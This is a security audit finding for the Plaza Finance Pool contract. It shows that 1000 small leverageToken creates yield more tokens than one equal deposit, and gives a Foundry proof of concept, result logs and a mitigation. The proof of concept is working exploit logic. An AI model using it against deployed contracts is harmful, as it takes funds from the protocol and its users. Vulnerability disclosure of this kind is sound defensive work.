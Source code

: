 Polished Scarlet Seahorse

High

# Repeats of small deposits will get profits

### Summary

By exploiting the calculation logic of the `_create` function, users can create `leverageToken` multiple times in small amounts to gain more profits than users who create all at once.

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Pool.sol#L269-L289

### Root Cause

The `simulateCreate` function calculates the amount of tokens to mint using the computed `poolReserves`, taking into fees calculated over time.
From this, the amount of tokens generated may differ depending on whether you deposit a large amount at once or in several installments.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Fund loss of the protocol and inequity between users

### PoC

```solidity
function setUp() public {
    vm.startPrank(deployer);

    address contractDeployer = address(new Deployer());
    oracleFeedsContract = address(new OracleFeeds());

    address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
    address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
    address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
    address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

    poolFactory = PoolFactory(Utils.deploy(address(new PoolFactory()), abi.encodeCall(
      PoolFactory.initialize,
      (governance, contractDeployer, oracleFeedsContract, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
    )));

    params.fee = 0;
    params.feeBeneficiary = governance;
    params.reserveToken = address(new Token("Wrapped ETH", "WETH", false));
    params.sharesPerToken = 50 * 10 ** 18;
    params.distributionPeriod = 0;
    params.couponToken = address(new Token("USDC", "USDC", false));

    OracleFeeds(oracleFeedsContract).setPriceFeed(params.reserveToken, address(0), ethPriceFeed, 100 days);

    // Deploy the mock price feed
    mockPriceFeed = new MockPriceFeed();

    // Use vm.etch to deploy the mock contract at the specific address
    bytes memory bytecode = address(mockPriceFeed).code;
    vm.etch(ethPriceFeed, bytecode);

    // Set oracle price
    mockPriceFeed = MockPriceFeed(ethPriceFeed);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    vm.stopPrank();

    vm.startPrank(governance);
    poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);
    poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), securityCouncil);
    vm.stopPrank();
  }


  function test_create_single() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 25000 ether, 25000 ether, "", "", "", "", false)); // collateral level is 1.36

    rToken.approve(address(pool), 1000 ether);

    vm.warp(block.timestamp + 10 days);

    vm.stopPrank();
    vm.startPrank(user);

    rToken.mint(user, 10 ether);
    rToken.approve(address(pool), 10 ether);

    uint256 amount = pool.create(Pool.TokenType.LEVERAGE, 10 ether, 0, block.timestamp, address(0));

    console.log("single create: ", amount);

  }

  function test_create_multi() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 25000 ether, 25000 ether, "", "", "", "", false));

    rToken.approve(address(pool), 1000 ether);

    vm.warp(block.timestamp + 10 days);

    vm.stopPrank();
    vm.startPrank(user);

    rToken.mint(user, 10 ether);
    rToken.approve(address(pool), 10 ether);

    vm.stopPrank();
    vm.startPrank(user);

    uint256 amount = 0;

    for(uint256 i = 0; i < 1000; i ++)
      amount += pool.create(Pool.TokenType.LEVERAGE, 0.01 ether, 0, block.timestamp, address(0));

    console.log("multiple creates: ", amount);
  }
```

> Logs:
> multiple creates: 1490273287098099463208
> single create: 1250685323445359580159

### Mitigation

To prevent too frequent call of function `create`, set a small fee that is independent of the deposit amount or set a minimum deposit amount.